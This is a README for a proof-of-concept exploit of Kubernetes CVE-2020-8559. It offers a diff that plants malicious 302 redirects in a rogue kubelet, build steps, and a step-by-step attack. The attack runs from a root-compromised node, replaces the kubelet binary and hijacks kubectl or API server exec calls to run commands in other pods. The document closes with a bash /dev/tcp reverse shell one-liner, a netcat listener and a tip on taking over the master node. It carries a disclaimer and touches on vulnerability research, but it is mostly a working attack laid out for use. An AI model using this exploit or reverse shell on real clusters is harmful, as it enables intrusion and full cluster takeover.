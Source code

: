 # Kubernetes CVE-2020-8559 Proof of Concept PoC Exploit

__This is for demonstration purposes only. Only for use on systems you are authorized to preform administrative actions on and are authorized to exploit CVE-2020-8559 on__

This is a PoC for CVE-2020-8559 This vulnerability allows an attacker who has gotten `root` on a Node to execute commands on any other Container in the cluster allowing the attacker to take over the Kubernetes Master Node.

This vulnerability is due to the fact that the Kubernetes API Server and kubectl command will follow HTTP Redirects combined with the fact that the Kubernetes API just puts all of the components of an API request into the URL i.e. Node name, Pod name, Container name, and even the Command. Therefor, if the Kubelet process responds to `/exec`, `/attach`, `/portforward`, or any `resource: proxy` action with a HTTP 302 Redirect with a Location header which says to execute a different command on a different Node in a different Container the Kubernetes API Server or `kubectl` command will happily make a new request for whatever is in the Location header.

## Kubernetes Repo with my PoC Code

You can download my forked version of Kubernetes and switch to my branch to build the exploit `kubelet` binary

```
git clone -b CVE-2020-8559 --single-branch git@github.com:tdwyer/kubernetes.git
```

## Git diff

```
diff --git a/pkg/kubelet/server/server.go b/pkg/kubelet/server/server.go
index c1f1975fe43..8459802755e 100644
--- a/pkg/kubelet/server/server.go
+++ b/pkg/kubelet/server/server.go
@@ -867,6 +867,28 @@ func (s *Server) ServeHTTP(w http.ResponseWriter, req *http.Request) {

        method, path := req.Method, trimURLPath(req.URL.Path)

+       ////
+       ////
+       // If path is vulnerable to CVE-2020-8559 send 302 redirect with malicious Location header
+       ////
+       ////
+       protocol := "https"
+       // If attacking requests from admins using the kubectl command
+       //     host == hostname of the Kubernetes API server obtained from `kubectl -v 8 get pods`
+       // If attacing the Kubernetes API Server
+       //     host == hostname of the Node the Victim container is running on
+       host := "internal-api-app-25-123456-123456789.us-west-2.elb.amazonaws.com"
+       namespace := "default"
+       pod := "victim-675759495f-pmfbk"
+       container := "victim"
+       command := "hostname"
+       if strings.Contains(req.URL.Path, "/exec") || strings.Contains(req.URL.Path, "/attach") || strings.Contains(req.URL.Path, "/portforward") {
+               fmt.Println("--------------------------------------------------------------")
+               fmt.Println("Sending Redirect")
+               fmt.Println("--------------------------------------------------------------")
+               http.Redirect(w, req, protocol+"://"+host+"/api/v1/namespaces/"+namespace+"/pods/"+pod+"/exec?command="+command+"&container="+container+"&stderr=true&stdout=true", 302)
+       }
+
        longRunning := strconv.FormatBool(isLongRunningRequest(path))

        servermetrics.HTTPRequests.WithLabelValues(method, path, serverType, longRunning).Inc()
```

## Configure

This PoC will just send 302 HTTP Redirect with a hard coded Location header, so you will need to edit `kubernetes/pkg/kubelet/server/server.go` and update `host`, `namespace`, `pod`, `container`, and `command`

__ProTip:__ List all of the Pods in the cluster. Then, configure this to execute commands on a Pod running on the Kubernetes Master Node in order start a reverse shell back to you in order to take over the cluster

## Build

After Configuring the attack, build a rouge `kubelet` binary

```
cd ~/go/src/k8s.io/kubernetes
GO111MODULE=on go mod download
cd ~/go/src/k8s.io/kubernetes/cmd/kubelet
go build
```

## Attack

1. Get root on a Node
2. Copy the rouge `kubelet` binary to the Node
3. Stop the `kubelet` process and over-write the binary with the rouge binary  
Find the PID of the `kubelet` process  
`ps aux |grep kubelet`  
Kill the `kubelet` process and copy the rouge binary into place  
`sudo kill $PID ; sudo cp kubelet /usr/local/bin/kubelet`  
4. Kill the `kubelet` process again so that it will re-start with the rouge binary  
Find the PID of the `kubelet` process  
`ps aux |grep kubelet`  
Kill the `kubelet` process  
`sudo kill $PID`  
5. If configured to attack an admin using the `kubectl` command on their local workstation, This command should return the hostname of the Victim Container instead of the container it should have been executed on
```
[0038][tdwyer@tdwyer-nuc:~/CVE-2020-8559]$ kubectl exec attacker-5cf89b94db-xdbfm -- date
victim-675759495f-pmfbk
```


You can also start a reverse shell back you from any Container with
1. Start netcat listening on your workstation  
`nc -lv 4444`  
2. Use this command instead  
`/bin/bash -i >& /dev/tcp/1.2.3.4/4444 0>&1`  

Success :D  
```
[1617][tdwyer@tdwyer-nuc:~]$ nc -lvk 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 9.8.7.6.in-addr.arpa 46828 received!
bash-5.0#
```

